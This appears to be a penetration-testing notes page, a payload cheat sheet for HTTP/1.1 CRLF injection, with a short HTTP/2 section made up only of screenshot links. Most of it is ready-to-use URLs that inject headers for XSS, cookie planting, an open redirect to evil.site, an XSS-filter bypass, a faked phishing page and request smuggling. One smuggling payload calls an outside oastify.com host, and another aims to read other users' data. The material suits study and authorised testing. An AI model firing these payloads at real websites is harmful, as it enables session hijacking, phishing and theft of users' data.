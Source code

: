 # Content 
- [HTTP/1.1 CRLF injeciton](#http11-crlf-injeciton)
  - [CRLF injeciton can lead to](#crlf-injeciton-can-lead-to)


## HTTP/1.1 CRLF injeciton
**where to inject** 
- url path
```
http://www.example.net/%0D%0A
```
- parameter
```
http://www.example.net/?param=value%0D%0A
```

### **CRLF injeciton can lead to**
#### XSS
```
http://www.example.net/?name=Bob%0D%0A<script>alert(document.domain)</script>
```
#### add a header

- add cookie

```
http://www.example.net/%0D%0ASet-Cookie:mycookie=myvalue   
```


- open redirect
```
http://www.example.net/%0D%0ALocation:http://evil.site    
```
- XSS Bypass
```
http://example.com/%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2f%2e%2e     

```
- Write HTML
```
http://www.example.net/index.php?lang=en%0D%0AContent-Length%3A%200%0A%20%0AHTTP/1.1%20200%20OK%0AContent-Type%3A%20text/html%0ALast-Modified%3A%20Mon%2C%2027%20Oct%202060%2014%3A50%3A18%20GMT%0AContent-Length%3A%2034%0A%20%0A%3Chtml%3EYou%20have%20been%20Phished%3C/html%3E 
```

#### Request Smuggling

if u can add headers 
```
GET /%20HTTP/1.1%0d%0aHost:%20redacted.net%0d%0aConnection:%20keep-alive%0d%0a%0d%0a HTTP/1.1

HTTP/1.1 200 OK
Connection: keep-alive
```

try to make smuggle request 
```
GET /%20HTTP/1.1%0d%0aHost:%20redacted.net%0d%0aConnection:%20keep-alive%0d%0a%0d%0aGET%20/redirplz%20HTTP/1.1%0d%0aHost:%20oastify.com%0d%0a%0d%0aContent-Length:%2050%0d%0a%0d%0a HTTP/1.1
```

or try to read other user's data
```
GET /%20HTTP/1.1%0d%0aHost:%20redacted.net%0d%0aConnection:%20keep-alive%0d%0a%0d%0aGET%20/%20HTTP/1.1%0d%0aFoo:%20bar HTTP/1.1
```


## HTTP/2 CRLF injection 
**where to inject** 
headers
![Screenshot_48](https://github.com/kiro6/penetration-testing-notes/assets/57776872/d87435ea-415c-4df8-85ae-c3edd954803b)

pseudo-headers
![Screenshot_49](https://github.com/kiro6/penetration-testing-notes/assets/57776872/0ae6ab25-dfdd-454a-b9d5-0b2ccc86925d)
